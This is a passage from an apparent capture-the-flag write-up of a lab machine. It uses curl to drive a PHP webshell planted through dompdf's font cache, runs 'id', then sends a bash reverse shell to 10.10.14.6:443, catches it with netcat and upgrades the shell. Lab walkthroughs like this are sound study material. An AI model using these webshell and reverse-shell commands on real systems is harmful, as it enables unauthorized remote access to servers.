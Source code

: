 Because the file is binary, I’ll need `-o-` to get `curl` to output it to STDOUT. I’m then piping that result into `tail` to remove all the binary junk, printing just the last line, which is the output of the webshell.

### Shell

To get a shell, I’ll convert the previous command into a POST request, with URL encoded data, just to make sure it still works:

```

oxdf@hacky$ curl -s --data-urlencode 'cmd=id' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php | tail -1
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Now I’ll replace the `id` with a simple [Bash webshell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ curl -s --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php

```

It hangs, but there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.200 59630
bash: cannot set terminal process group (1290): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 

```

I’ll upgrade my shell with the `script` / `ssty` [trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
<r/dompdf/dompdf/lib/fonts$ script /dev/null -c bash     
Script started, file is /dev/null
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$

```
